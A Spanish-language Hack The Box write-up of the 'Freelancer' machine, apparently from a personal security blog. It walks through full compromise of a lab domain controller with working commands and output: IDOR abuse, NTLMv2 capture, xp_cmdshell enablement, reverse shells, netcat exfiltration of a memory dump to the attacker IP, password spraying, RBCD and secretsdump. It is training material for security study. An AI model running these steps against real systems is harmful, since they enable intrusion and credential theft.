pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Freelancer Writeup
Welcome to my detailed writeup of the medium difficulty machine “Freelancer” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.230.3 --ulimit 5000 -g
10.129.230.3 -> [53,80,88,135,139,389,445,464,593,3269,3268,5985,9389,49667,49680,49682,49681,49710]
$ nmap -p53,80,88,135,139,389,445,464,593,3269,3268,5985,9389,49667,49680,49682,49681,49710 -sCV 10.129.230.3 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 09:14 CEST
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.84% done; ETC: 09:15 (0:00:00 remaining)
Nmap scan report for 10.129.230.3
Host is up (0.040s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http nginx 1.25.5
|_http-title: Did not follow redirect to http://freelancer.htb/
|_http-server-header: nginx/1.25.5
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-05 10:15:08Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49680/tcp open msrpc Microsoft Windows RPC
49681/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49682/tcp open msrpc Microsoft Windows RPC
49710/tcp open unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: 3h00m21s
| smb2-time:
| date: 2024-08-05T10:16:01
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.99 seconds
En el puerto 80 se realiza una redirección a freelancer.htb , así que vamos a añadir este dominio al /etc/hosts
Initial Enumeration
No puedo enumerar mediante el uso de una null session nada, ni SMB, RPC, LDAP…
HTTP Enumeration
$ gobuster dir -u http://freelancer.htb -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
Vemos una ruta /admin que nos va a servir mas adelante.
Vemos un montón de características para enumerar. 
Para la mayoría de estas características me pide que me registre.
Voy a crear una cuenta de usuario.
Podemos hacernos una cuenta como Freelancer o como Employeer
Vamos a crearnos una cuenta como Freelancer

Después de investigar un poco decidí crear una cuenta como employeer

Bypassing Revision
Vemos este mensaje de aviso. Parece que nuestra cuenta no podrá ser activada automáticamente y tiene que pasar una revisión previa. 
Si creamos la cuenta e intentamos logearnos… 
Si le damos a Forgot your password? vemos el siguiente mensaje, que nos afirma que si introducimos correctamente las preguntas de seguridad que hemos utilizado al registrarnos, nuestra cuenta será reactivada y podremos cambiar la contraseña..

Reestablecemos la cuenta.. 
Y “chiquita” cagada, parece que ha habido un error de lógica por detrás y hemos podido activar nuestra cuenta sin pasar la revisión.
A esto se le llama Logic Error en OWASP.

Me fijé que se utilizaba Django por detrás, lo primero que pensé ahora que podía crear publicaciones es en intentar un SSTI.

Pero esto no surgió efecto. 
Jugando con ambas cuentas, al intentar ver los detalles de la cuenta que ha aplicado a mi publicación…  Esto parece que no está bien gestionado.. También se podría publicar en el informe final, pero bueno. Vamos a la “chicha”. 
Detectamos que el ID del admin es 2 , esto nos servirá mas adelante.

Abusing Insecure Direct Object Reference
Podemos ver un apartado de código QR para poder habilitar One-Time Password. 
Si decodificamos este QR vemos una dirección URL.
http://freelancer.htb/accounts/login/otp/MTAwMTE=/14b70f28e1e6c258ef1ba6ec434fce7a/
Me llama la atención la parte de la derecha de /otp/ , parece una cadena codificada en base64.
$ echo "MTAwMTE=" | base64 -d
10011
Es mi ID de usuario!
¿Que pasa si ponemos el ID de admin (2)?
$ echo "2" | base64
Mgo=
Ahora ingresamos en http://freelancer.htb/accounts/login/otp/Mgo=/14b70f28e1e6c258ef1ba6ec434fce7a/
Y hemos abusado de un IDOR que se acontecía en la función de habilitar OTP en las cuentas de usuario. 
Foothold
Tenía las mismas funciones que con una cuenta de usuario normal, así que me acordé que había una ruta /admin.
Lo que mas me llama la atención es SQL Terminal ya que podríamos intentar ejecutar comandos de forma remota, o recuperar el hash NTLMv2 e intentar crackearlo offline (Suponiendo que la base de datos por detrás sea MSSQL, que siendo una máquina Windows, es lo mas probable).

Vamos a ponernos en escucha con responder para interceptar el hash NTLMv2.
Ahora con xp_dirtree vamos a solicitar un recurso a nuestra IP de atacante.

sudo responder -I tun0
...
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.129.230.3
[SMB] NTLMv2-SSP Username : FREELANCER\sql_svc
[SMB] NTLMv2-SSP Hash : sql_svc::FREELANCER:8bba74ed47f951fa:3D15B9DC9F9CE4F1B7FD33B35E9BBA87:01010000000000008011F4671CE7DA012A9F8B83BA3AE1BE000000000200080053004E005100430001001E00570049004E002D004F0038004A00570035004A004400520035004500380004003400570049004E002D004F0038004A00570035004A00440052003500450038002E0053004E00510043002E004C004F00430041004C000300140053004E00510043002E004C004F00430041004C000500140053004E00510043002E004C004F00430041004C00070008008011F4671CE7DA0106000400020000000800300030000000000000000000000000300000E5FB259A4FE63836BB326D340E644EBA71FA4A5FB33D7FFF8023C362D45BAD890A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310038000000000000000000
Parece que esta credencial no viene contemplada en el rockyou.txt
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 DONE (2024-08-05 09:49) 0g/s 1983Kp/s 1983Kc/s 1983KC/s !)(OPPQR..*7¡Vamos!
Session completed.
Vemos que el usuario que está realizando las consultas por detrás no es sa (System Admin).
Voy a buscar alguna manera para poder migrar a este usuario. Si lo conseguimos, quizás con xp_cmdshell conseguir RCE.

Impersonating sa
Primero tenemos que listar que usuarios podemos impersonar. En HackTricks tiene un apartado Impersonation of other users donde se explica todo esto.
SQL Server tiene un permiso especial llamado IMPERSONATE que permite ejecutar como otro usuarios consultas o funciones especiales hasta que el contexto se reestablezca o la sesión acabe.

Vemos que podemos impersonar al usuario sa


Gaining RCE through xp_cmdshell
¡Perfecto! Lo único malo es que el contexto de impersonación solo dura hasta que se reestablezca el contexto que es cada vez que termina una consulta, pero esto no es problema.
Y xp_cmdshell está deshabilitado, pero como somos sa podemos utilizar sp_configure para habilitarlo y conseguir ejecutar comandos.

Ejecutando esta consulta podemos activarlo.
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
¡Y conseguimos RCE! Vemos el usuario del cual hemos conseguido antes el hash NTLMv2. 
Para enviarnos la revshell voy a utilizar Invoke-PowerShellTcp.ps1 de nishang
Simplemente añadimos esa línea al final del script. 
Y servimos ese archivo por el puerto 8081.
$ python3 -m http.server 8081
Nos ponemos en escucha con netcat
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
Y vemos que existe un AV detrás que nos bloquea la ejecución de nuestra reverse shell.. 
Con Vulkan podemos generar un one-liner ofuscado para poder mandarnos una reverse shell. 
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
Ahora solo queda ejecutar este script… 
¡Bingo!
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.230.3] 61187
whoami
freelancer\sql_svc
PS C:\WINDOWS\system32>
User Pivoting 1
Enumerando el directorio personal de trabajo del usuario sql_svc encontramos un directorio SQLEXPR-2019_x64_ENU
Es el instalador para la base de datos MSSQL, en el archivo de configuración inicial sql-Configuration.INI vienen unas credenciales hardcodeadas.
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
con net users podemos recolectar los usuarios y con netexec probar si esta credencial es válida para algún usuario, aunque ya me hago una idea…

$ nxc smb 10.129.230.3 -u users.txt -p 'IL0v3ErenY3ager' --continue-on-success
SMB 10.129.230.3 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.3 445 DC [-] freelancer.htb\administrator:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\alex.hill:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\carol.poland:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\d.jones:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\dthomas:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\ereed:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\Ethan.l:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\evelyn.adams:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\Guest:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\hking:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\jen.brown:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\jgreen:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\jmartinez:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\krbtgt:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\leon.sk:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\maya.artmes:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\michael.williams:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
SMB 10.129.230.3 445 DC [-] freelancer.htb\olivia.garcia:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\samuel.turner:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sdavis:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sophia.h:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sql_svc:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\SQLBackupOperator:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sshd:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\taylor:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\wwalker:IL0v3ErenY3ager STATUS_LOGON_FAILURE
Y como me imaginaba.
mikasaAckerman:IL0v3ErenY3ager
Este usuario no está en el grupo Remote Management Users, voy a tener que utilizar RunasCs.exe para poder pivotar.
$ nxc winrm 10.129.230.3 -u mikasaAckerman -p 'IL0v3ErenY3ager'
WINRM 10.129.230.3 5985 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
WINRM 10.129.230.3 5985 DC [-] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
Nos compartimos el ejecutable…
PS C:\Users\sql_svc\Desktop> iwr http://10.10.14.18:8081/RunasCs.exe -o RunasCs.exe
Nos ponemos en escucha con netcat
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
Y nos mandamos la revshell.
PS C:\Users\sql_svc\Desktop> .\RunasCs.exe mikasaackerman IL0v3ErenY3ager cmd.exe -r 10.10.14.18:443
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-515e8$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 4424 created in background.
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.230.3] 61595
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
whoami
freelancer\mikasaackerman
En el escritorio de este usuario podemos ver la flag y unos archivos interesantes…
C:\Users\mikasaAckerman\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 8954-28AE
Directory of C:\Users\mikasaAckerman\Desktop
05/28/2024 10:22 AM <DIR> .
05/28/2024 10:22 AM <DIR> ..
10/28/2023 06:23 PM 1,468 mail.txt
10/04/2023 01:47 PM 292,692,678 MEMORY.7z
08/05/2024 06:11 AM 34 user.txt
3 File(s) 292,694,180 bytes
2 Dir(s) 2,597,232,640 bytes free
C:\Users\mikasaAckerman\Desktop>type user.txt
type user.txt
9cd7c949484af8....
User Pivoting 2
El archivo mail.txt tiene el siguiente contenido.
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards
Leyendo el email nos damos cuenta de que tenemos un dumpeo de memoria del servidor. Esto puede ser muy útil para poder extraer credenciales, vamos a ver como.
Primero quiero tener este comprimido en mi máquina, me comparto netcat y con ello me comparto el comprimido.
C:\Users\mikasaAckerman\Desktop>cmd.exe /c "nc.exe 10.10.14.18 443 < MEMORY.7z"
$ sudo nc -lvnp 443 > MEMORY.7z
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.230.3] 63844
Como el archivo pesa bastante, dejemos un rato el archivo compartiéndose.
Para saber cuando terminó, podemos con Get-FileHash calcular el hash MD5 original del archivo.
C:\Users\mikasaAckerman\Desktop>powershell Get-FileHash .\MEMORY.7z -Algorithm MD5
powershell Get-FileHash .\MEMORY.7z -Algorithm MD5
Algorithm Hash Path
--------- ---- ----
MD5 931386993AB32B37692FDE69E8FF389F C:\Users\mikasaAckerman\Deskt...
Y en nuestra máquina, MIENTRAS se está compartiendo, ir calculando de vez el cuando el hash MD5, cuando coincida significa que la transmisión del archivo habrá terminado.
$ md5sum MEMORY.7z
47f51df9d1a469be9ac0db604ac5df56 MEMORY.7z
Una vez tengamos el comprimido, podemos listar su contenido.
Contiene un archivo MEMORY.DMP.
Con mimikatz podemos utilizar el módulo sekurlsa::minidump para pasarle un archivo .dmp donde se encuentre una instancia de lsass.exe
Esto no se puede hacer con un dumpeo de la memoria completa. Por lo cual, con volatility3 voy a extraer el proceso de lsass.exe para luego con mimikatz extraer los hashes de la SAM
sudo vol -f MEMORY.DMP windows.info
Ahora enumeramos los procesos
$ sudo vol -f MEMORY.DMP windows.pslist.PsList
Y encontramos el lsass.exe
584 456 lsass.exe 0xbc83a93e7080 9 - 0 False 2023-10-04 17:30:06.000000 N/A Disabled
Ahora con el módulo de memmap podemos dumpear un proceso seleccionando su PID, en este caso, 584.
$ sudo vol -f MEMORY.DMP windows.memmap.Memmap --pid 584 --dump
**PARA POINTED, SEGURO QUE HAY ALGUNA MANERA MEJOR Y MAS RÁPIDO PARA HACERLO
Efectivamente, me di cuenta de lo que estaba haciendo y de porqué.
Esto se solía hacer con volatility2 pero volatility3 tiene módulos para interactuar con LSASS y dumpear credenciales.
Módulos como windows.lsadump o windows.hashdump.
Gracias por este “issue” abierto en Github.
https://github.com/volatilityfoundation/volatility3/issues/1102
$ sudo vol -f MEMORY.DMP windows.hashdump
Volatility 3 Framework 1.0.1
Progress: 100.00 PDB scanning finished
User rid lmhash nthash
Administrator 500 aad3b435b51404eeaad3b435b51404ee 725180474a181356e53f4fe3dffac527
Guest 501 aad3b435b51404eeaad3b435b51404ee 31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount 503 aad3b435b51404eeaad3b435b51404ee 31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount 504 aad3b435b51404eeaad3b435b51404ee 04fc56dd3ee3165e966ed04ea791d7a7
Intenté hacer Pass The Hash a la cuenta de Administrator pero no era válido.
$ nxc smb 10.129.230.3 -u 'Administrator' --aesKey 'aad3b435b51404eeaad3b435b51404ee'
SMB 10.129.230.3 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.3 445 DC [-] freelancer.htb\Administrator:aad3b435b51404eeaad3b435b51404ee KDC_ERR_PREAUTH_FAILED
Utilizando el módulo windows.lsadump
sudo vol -f MEMORY.DMP windows.lsadump
¡Vemos una credencial! 
Como no sabía para que usuario podría ser esta credencial, con netexec hice Password Spraying a todos los usuarios.
$ nxc smb 10.129.230.3 -u users.txt -p 'PWN3D#l0rr@Armessa199' --continue-on-success
SMB 10.129.230.3 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.3 445 DC [-] freelancer.htb\administrator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\alex.hill:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\carol.poland:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\d.jones:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\dthomas:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\ereed:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\Ethan.l:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\evelyn.adams:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\Guest:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\hking:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\jen.brown:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\jgreen:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\jmartinez:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\krbtgt:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\leon.sk:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\lkazanof:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199
SMB 10.129.230.3 445 DC [-] freelancer.htb\maya.artmes:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\michael.williams:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\mikasaAckerman:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\olivia.garcia:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\samuel.turner:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sdavis:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sophia.h:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sql_svc:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\SQLBackupOperator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\sshd:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\taylor:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB 10.129.230.3 445 DC [-] freelancer.htb\wwalker:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
freelancer.htb\lorra199:PWN3D#l0rr@Armessa199
Y vemos que este usuario está en el grupo de Remote Management Users
$ nxc winrm 10.129.230.3 -u 'lorra199' -p 'PWN3D#l0rr@Armessa199'
WINRM 10.129.230.3 5985 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
WINRM 10.129.230.3 5985 DC [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 (Pwn3d!)
Así que con evil-winrm podemos conectarnos a la máquina víctima.
evil-winrm -i 10.129.230.3 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lorra199\Documents> whoami
freelancer\lorra199
Privilege Escalation
Quería utilizar SharpHound.exe para recolectar información pero…

Así que voy a utilizar bloodhound-python desde mi máquina de atacante para ahorrarme problemas.
$ bloodhound-python -c All -dc dc.freelancer.htb -d freelancer.htb -ns 10.129.230.3 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
Vemos que este usuario pertenece al grupo AD Recycle Bin

Y este grupo tiene permisos de GenericWrite sobre el DC. Esto significa que podemos escribir a cualquier atributo de los objetos del DC, incluido los miembros y los SPN por lo cual se acontece un ataque de tipo Resource-Based Constrained Delegation

Primero, debemos crear un equipo en el dominio.
$ impacket-addcomputer -method SAMR -computer-name 'POINTEDSEC$' -computer-pass 'Pointed123@' -dc-host dc.freelancer.htb -domain-netbios FREELANCER 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Successfully added machine account POINTEDSEC$ with password Pointed123@.
Ahora con netexec podemos comprobar que se ha creado correctamente.
$ nxc smb freelancer.htb -u 'POINTEDSEC$' -p 'Pointed123@'
SMB 10.129.230.3 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.3 445 DC [+] freelancer.htb\POINTEDSEC$:Pointed123@
Ahora tenemos que configurar al equipo recién creado para que pueda delegar sobre el DC e impersonar los usuarios en el DC.
$ impacket-rbcd -delegate-from 'POINTEDSEC$' -delegate-to 'DC$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199' -dc-ip 10.129.230.3
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] POINTEDSEC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*] POINTEDSEC$ (S-1-5-21-3542429192-2036945976-3483670807-12101)
Ahora solo falta solicitar el TGT de Administrator
$ getST.py -spn 'cifs/dc.freelancer.htb' -impersonate 'Administrator' 'freelancer.htb/POINTEDSEC$:Pointed123@'
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
Sabemos que Kerberos utiliza un timestamp para la pre-autenticación, así que vamos a sincronizar la hora de mi equipo con la máquina víctima con ntpdate
sudo ntpdate freelancer.htb
2024-08-05 14:44:26.327717 (+0200) +10822.139094 +/- 0.019971 freelancer.htb 10.129.230.3 s1 no-leap
CLOCK: time stepped by 10822.139094
Ahora tenemos el ticket de Administrator..
$ getST.py -spn 'cifs/dc.freelancer.htb' -impersonate 'Administrator' 'freelancer.htb/POINTEDSEC$:Pointed123@'
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
Ahora exportamos la variable de entorno KRB5CCNAME para poder utilizar este ticket TGT.
$ export KRB5CCNAME=$(pwd)/Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/freelancer/content]
└──╼ [★]$ echo $KRB5CCNAME
/home/pointedsec/Desktop/freelancer/content/Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
Y ahora podemos hacer Pass The Ticket con psexec para conseguir una consola como Administrator
$ impacket-psexec freelancer.htb/Administrator@dc.freelancer.htb -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Requesting shares on dc.freelancer.htb.....
[*] Found writable share ADMIN$
[*] Uploading file gCTHyGif.exe
[*] Opening SVCManager on dc.freelancer.htb.....
[*] Creating service Awdj on dc.freelancer.htb.....
[*] Starting service Awdj.....
Por alguna razón no termina de salir bien el proceso para conseguir la consola, así que vamos a efectuar un DCSync para con impacket-secretsdump conseguir el hash lm:nt del NTDS.dit de Administrator y hacer Pass The Hash
$ impacket-secretsdump 'freelancer.htb/Administrator@dc.freelancer.htb' -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Target system bootKey: 0x9db1404806f026092ec95ba23ead445b
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:680c12d4ef693a3ae0fcd442c3b5874a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
FREELANCER\DC$:plain_password_hex:1f36a3b5a23441f6054f56f97d29c3312ca75d6d7450912ea81648778b5e540c6f38ab1335f9b27f4c69646359f12f2358d272bc0de36d5a9073b2358f68f1873425130a4b88bd750a55f018f1a83d1108691f4757b92f3f1242147e656fe2e1c38e312d5f26f6d9377cb01a53c38d689a48f4c1fcb5320d06fd6c3184810ba49ec8197a0b14f8e9a06f7a83e68437412e57cfa5bc2aa78a782412c509c139cf2cd85efea4b1ea5cafbb1146bc3eb5431eda9feae2854e25c4d1f357d6dc2844c2b7b86325bdca5985873644bd0b3de57996d8e442cd5996e2206072b8e7e90c621bd4f4f67f52be774a578c2d515d31
FREELANCER\DC$:aad3b435b51404eeaad3b435b51404ee:89851d57d9c8cc8addb66c59b83a4379:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xe20295f92e7e0bff2615bed48f0a0be7067e28f2
dpapi_userkey:0xbc3e1b600d881e1867b0bdfe6ec833e9743c07d7
[*] NL$KM
0000 D9 0B 60 A4 72 C3 B6 08 E4 F1 FF 54 62 91 65 66 ..`.r......Tb.ef
0010 DE EE 19 17 58 31 12 CB DF 25 18 D0 36 B0 C1 F4 ....X1...%..6...
0020 1B 96 C3 5F 22 73 F0 D6 B9 81 2F 26 BA 69 6A FD ..._"s..../&.ij.
0030 7F C7 0B 87 71 BE D5 F5 8A 74 B4 3A BD AF DB 71 ....q....t.:...q
